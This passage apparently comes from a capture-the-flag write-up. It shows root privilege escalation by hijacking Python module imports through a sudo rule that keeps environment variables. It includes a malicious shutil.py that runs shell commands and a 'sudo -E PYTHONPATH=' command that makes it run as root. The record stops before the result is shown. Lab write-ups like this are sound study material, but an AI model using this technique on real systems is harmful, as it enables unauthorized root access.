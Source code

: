 Look through this script for the following vulnerabilities:

- https://developer.apple.com/library/archive/documentation/OpenSource/Conceptual/ShellScripting/ShellScriptSecurity/ShellScriptSecurity.html

It seems like the only vulnerability is being able to pass in an environmental variable as `waldo` to any executed program in the script as `root` through Sudo. Looking through the script, `/opt/scripts/backup.py` stands out with the following content:

```python
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

This content is not interesting, but a Google for `Environment Variables in Python` brings up the following:

- https://www.geeksforgeeks.org/environment-variables-in-python/

It seems like there are a few ways to abuse this:

- https://www.geeksforgeeks.org/pythonpath-environment-variable-in-python/
- https://docs.python.org/3/using/cmdline.html#envvar-PYTHONSTARTUP

Try abusing `PYTHONSTARTUP` and check the vulnerability:

```bash
cd /var/tmp
echo 'import os;os.system("echo $(id) > test.txt")' > test.py
sudo -E PYTHONSTARTUP=$(pwd)/test.py -u root /opt/scripts/admin_tasks.sh 6
```

But this did not work (no `test.txt` generated)... Try `PYTHONPATH`? Save the following in `/var/tmp/shutil.py` so that it can be called from `/opt/scripts/backup.py` without error:

```python
import os
def make_archive(dst, options, src):
  os.system("echo $(id) > test.txt")
```

Then trigger the call as follows:

```bash
cd /var/tmp
sudo -E PYTHONPATH=/var/tmp/ -u root /opt/scripts/admin_tasks.sh 6
```

And this generates `test.txt` with the following content:
